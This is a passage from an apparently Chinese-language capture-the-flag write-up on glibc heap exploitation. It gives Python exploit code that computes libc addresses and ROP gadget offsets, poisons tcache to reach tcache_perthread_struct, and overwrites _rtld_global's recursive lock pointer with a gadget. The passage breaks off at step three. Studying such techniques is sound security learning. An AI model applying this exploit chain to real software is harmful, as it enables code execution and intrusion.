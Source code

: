    ```python
   
   success("system_addr==>"        + hex(system_addr))
   success("setcontext_addr==>"    + hex(setcontext_addr))
   success("IO_2_1_stdout_addr==>" + hex(IO_2_1_stdout_addr))
   success("IO_list_all_addr==>"   + hex(IO_list_all_addr))
   success("IO_wfile_jumps_addr==>"+ hex(IO_wfile_jumps_addr))
   success("rtld_global_addr==>"   + hex(rtld_global_addr))
   success("IO_2_1_stderr_addr==>"+ hex(IO_2_1_stderr_addr))
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr= libc.sym['write']+libc_base
   mmap_addr = libc.sym['mmap'] +libc_base
   writev_addr = libc_base + libc.sym['writev']
   
   pop_rdi_ret=libc_base + 0x0000000000028a55
   pop_rdx_ret=libc_base + 0x00000000000c7f32
   pop_rax_ret=libc_base + 0x0000000000044c70
   pop_rsi_ret=libc_base + 0x000000000002a4cf
   pop_rcx_rbx_ret = libc_base + 0x00000000000fc104
   pop_r8_ret = libc_base + 0x148686
   ret= libc_base + 0x000000000002a4cf+1
   ```

   ![image-20240909112550066](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091126784.png)

2. 申请到tcache_perthread_struct上的chunk，修改entry中的头指针，并伪`造好size字段`（便于后续free add进行多次任意地址写），因为free进入tcache时，会根据其size字段的值将地址放入对听的entry头中。

   ```python
   # 任意地址申请chunk 修改_rtdl_global结构体 
   dl_load_lock_addr = rtld_global_addr + 0x980
   dl_rtld_lock_recursive_addr = rtld_global_addr + 0xf90
   success("dl_load_lock_addr          ==>"   + hex(dl_load_lock_addr))
   success("dl_rtld_lock_recursive_addr==>"   + hex(dl_rtld_lock_recursive_addr))
   
   gadget = libc_base + 0x000000000014a0a0
   success("gadget          ==>"   + hex(gadget))
   # debug()
   # 申请到 tcache_perthread_struct
   payload = fd_glibc64(tcache_key,heap_addr + 0xf0)
   edit(7,payload)     # 修改 next指针 指向tcache
   
   add(b"aaa")     #8
   add(p64(0) + p64(0x110) + p64(0) + p64(heap_addr + 0x100))     #9 伪造好size字段和chunk 0x110的指针
   ```

   伪造好size后0x0000559aa9f90100地址上的chunk就能释放进入tcache中了，从而进行多次任意地址申请chunk：

   ![image-20240909113015266](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091130523.png)

3. 第一次写入往dl_rtld_lock_recursive_addr中写入gadget，dl_rtld_lock_recursive_addr地址写入entry头中，然后申请出来：
